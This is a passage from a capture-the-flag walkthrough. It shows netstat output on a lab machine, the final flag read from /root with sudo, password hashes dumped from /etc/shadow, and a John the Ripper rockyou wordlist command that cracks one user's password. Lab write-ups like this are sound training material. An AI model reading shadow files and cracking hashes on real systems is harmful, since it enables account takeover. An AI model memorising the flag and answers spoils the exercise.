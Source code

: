 ```bash
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
udp     3072      0 127.0.0.53:53           0.0.0.0:*                           -
udp        0      0 192.168.70.44:68        0.0.0.0:*                           -
udp        0      0 0.0.0.0:161             0.0.0.0:*                           -
udp        0      0 0.0.0.0:46341           0.0.0.0:*                           -
raw6       0      0 :::58                   :::*                    7           -
vedas@ubuntu:~$ sudo ls /root
final.txt
vedas@ubuntu:~$ sudo cat /root/final.txt

 final flag:{c08cddc7f3bac6f00c00408c6d2274dc}

!! Congrats you have finished this task !!


+-+-+-+-+-+ +-+-+-+-+-+-+-+
 |E|n|j|o|y| |l|u|a|n|y|u|
 +-+-+-+-+-+ +-+-+-+-+-+-+-+
__________________________________
```

> final flag:{c08cddc7f3bac6f00c00408c6d2274dc}



## DiskGenius

### shadow

> /etc/shadow

```bash
vedas:$6$rD5etybc$shvblvk1/YtqzZiAwejv47TTnA7poEkSUYFfN2anPIXNMIEx80qbFudVYj69WmuJrXfvRtN0DBtRykNxWpY9U1
atri:$6$EYm2/9zC$hNrIxGjErnzRvBaDHuLW0L/kIo7975e4RUTJGus/HaXrbvZQQGRd8hVXB2sMVyiB9XtrzKZn1JgTDhnw04dS/0
```



```bash
john 4.txt -w=/usr/share/wordlists/rockyou.txt
```

> anasuya          (atri) 

### .bash_history

> /root/.bash_history
